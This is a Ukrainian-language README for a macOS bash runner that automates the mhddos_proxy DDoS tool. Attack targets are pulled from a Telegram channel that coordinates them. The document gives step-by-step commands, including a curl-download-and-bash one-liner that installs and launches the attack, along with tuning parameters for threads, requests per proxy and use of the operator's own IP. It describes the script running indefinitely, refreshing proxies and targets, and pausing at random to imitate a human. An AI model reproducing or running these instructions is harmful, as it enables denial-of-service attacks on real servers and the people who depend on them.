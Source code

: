 # Опис auto_mhddos_mac

runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Mac-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy_releases)    
Також він автоматично оновлює не лише свій скрипт та цілі, а й сам скрипт mhddos_proxy
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-2 (рандомно) хвилин), щоб дати машині трохи відпочити
Скрипт розподіляє ваші машини по цілям: https://github.com/porthole-ascend-cinnamon/mhddos_proxy_releases (цілі беруться звідси: https://t.me/itarmyofukraine2022)  
  
[**Варіант для Windows**](https://github.com/alexnest-ua/runner_for_windows)  
[**Варіант для Linux**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/main)  
[**Варіант для Docker**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker)   
[**Варіант для Android**](https://telegra.ph/mhddos-proxy-for-Android-with-Termux-03-31)   
  
можете запускати цей скрипт на увесь день та йти по своїм справам - він сам буде брати актуальні цілі  

**якщо запускаєте цей скрипт - інші атаки через Python не запускайте, бо при рестарті він вбиває усі процеси старі процеси з mhddos_proxy (щоб старі атаки не накопичувалися)**

Канал, де координуються цілі: https://t.me/itarmyofukraine2022 (звідти і беруться сюди цілі, тому якщо у вас на Mac запущено цей скрипт - то можете відповчивати, він все зробить за вас)  
чат де ви можете задати свої питання: https://t.me/+H6PnjkydZX0xNDky
також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

# Запуск скрипта
1) Заходимо в Launchpad, щоб відкрити термінал  
![image](https://user-images.githubusercontent.com/74729549/167318008-ec0e5caf-dc57-4d29-a352-8b41c49d4fe2.png)
2) Шукаємо terminal  
![image](https://user-images.githubusercontent.com/74729549/167318025-d7d89817-4e83-4118-8c35-fbf37e59fdea.png)
3) Запускаємо Термінал  
![image](https://user-images.githubusercontent.com/74729549/167318042-f892bec6-7a8b-4ad7-aed1-f625f2e92fd4.png)
4) Запускаємо скрипт, який сам встановить необхідні програми: Brew, Python, Git, доп. засоби Баш'у (можливо попросить ввести пароль для установки, 10 Гб вільного місця на диску та натиснути ENTER, щоб продовжити завантаження - тому слідкуйте уважно за виконанням скрипта при першому запуску), та після установки сам запустить mhddos_proxy та proxy_finder:
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh
```
    
* Буде запущено атаку з наступними параметрами за замовчуванням: threads=4000 rpc=1000 debug="" vpn=""(4000 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу, без атаки через ваш ІР) та автоматично запустить паралельно наш [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  
  
**Далі можна просто ЗГОРНУТИ вікно і воно буде працювати нескінченно в фоні**  
***щоб зупинити процес - натисніть Ctrl+C (або якщо не спрацює просто закрийте вікно з атакою)***  
  
Далі кожні 5 хвилин воно буде оновлювати список проксі, а кожні 20 хвилин - цілі атаки та перевіряти наявність оновлення (та встановлювати його якщо воно є)  
  
**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 2)), але можно і без них:  
`curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh [threads] [rpc] [debug] [vpn]`  
- threads - кількість потоків (але не менше 4000, та не більше 10000)
- rpc - кількість запитів на проксі перед відправкою на ціль (але не менше 1000, та не більше 3000)
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 3-ий параметр додайте --debug)
- vpn - використання вашого ІР у атаці разом з проксі (4-ий параметр: --vpn
  
* У всіх варіантах буде автоматично запущено паралельно наш [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  
  

**ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ті, що за замовчуванням.**  
**також можете додавати **3-тим** параметром --debug, що слідкувати за ходом атаки, та **4-тим** параметром --vpn, щоб атакувати ще й через свій ІР разом з проксі**  
*наприклад команда з 4000 threads, 1000 rpc, дебагом та доп. атакою через ваш ІР*  
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh 4000 1000 --debug --vpn
```
* Приклад **БЕЗ** параметру --debug:  
![image](https://user-images.githubusercontent.com/74729549/168069087-1d1d641e-4ded-43b8-99e4-1d0688e3d2f0.png)  
***наступні 5 хвилин буде виводитись лише інформація від proxy_finder про пошук проксі, але атака теж йде паралельно!***  
* Приклад **З** параметрами --debug та --vpn:  
![image](https://user-images.githubusercontent.com/74729549/168068441-0be60ba6-49c7-41de-a89c-c50410a50fef.png)  
  
Далі кожні 5 хвилин воно буде оновлювати список проксі, а кожні 20 хвилин - цілі атаки та перевіряти наявність оновлення (та встановлювати його якщо воно є)  

